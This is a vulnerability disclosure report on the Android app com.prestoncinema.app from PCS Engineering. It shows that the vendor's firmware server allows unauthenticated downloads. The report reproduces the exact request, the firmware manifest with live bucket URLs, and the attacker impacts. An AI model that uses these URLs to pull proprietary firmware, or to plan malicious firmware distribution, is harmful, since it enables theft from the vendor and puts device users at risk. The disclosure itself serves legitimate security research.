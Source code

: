 # Vulnerability Report - com.prestoncinema.app- Incorrect Access Control

**Product:** `com.prestoncinema.app` 

**Vendor:** [PCS Engineering](http://www.pcsengineering.net/)

**Version:** 0.2.0

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.prestoncinema.app` , developed by **PCS Engineering**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `pcsPath` Field value in the `FirmwareUpdateActivity` class provides the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003203521013](https://s2.loli.net/2024/10/03/rbqohPnLJmlRsKc.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://storage.googleapis.com/preston-42629.appspot.com/firmware_app/firmware.xml HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: storage.googleapis.com
   Content-Length: 0
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   x-goog-generation: 1725378482750814
   x-goog-metageneration: 1
   x-goog-stored-content-encoding: identity
   x-goog-stored-content-length: 89349
   x-goog-hash: crc32c=zGH6qw==
   x-goog-hash: md5=Jdt9ClEathvV8ArK2ClOhw==
   x-goog-storage-class: STANDARD
   Accept-Ranges: bytes
   Content-Length: 89349
   X-GUploader-UploadID: AD-8ljvKuO6d4hAJ5kV1TXi3nWRkNyq-Gzc6PGrVUFyy0cyksT_3BuATE-uMOrb-KFI8iaWxsaU
   Server: UploadServer
   Date: Thu, 03 Oct 2024 12:35:56 GMT
   Expires: Fri, 03 Oct 2025 12:35:56 GMT
   Cache-Control: no-cache
   Last-Modified: Tue, 03 Sep 2024 15:48:02 GMT
   ETag: "25db7d0a511ab61bd5f00acad8294e87"
   Content-Type: text/xml
   Age: 0
   Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
   
   <?xml version="1.0"?>
   <prestoncinema>
     <products>
       <product name="Hand3">
         <firmware>
           <firmwarerelease version="2.60" hexfile="https://storage.googleapis.com/preston-42629.appspot.com/firmware_app/Hand3_260Out.S19" latest="true">
             <change>MDR5 support</change>
             <change>Bug Fixes and Improvements</change>
           </firmwarerelease>
           <firmwarerelease version="2.57" hexfile="https://storage.googleapis.com/preston-42629.appspot.com/firmware_app/Hand3_257Out.S19" latest="false">
             <change>Bug Fixes and Improvements</change>
           </firmwarerelease>
           <firmwarerelease version="2.56" hexfile="https://storage.googleapis.com/preston-42629.appspot.com/firmware_app/Hand3_256Out.S19" latest="false">
    ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003203849251](https://s2.loli.net/2024/10/03/q1ctw7KVdES5QiM.png)
   
   In total, we successfully downloaded **88 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.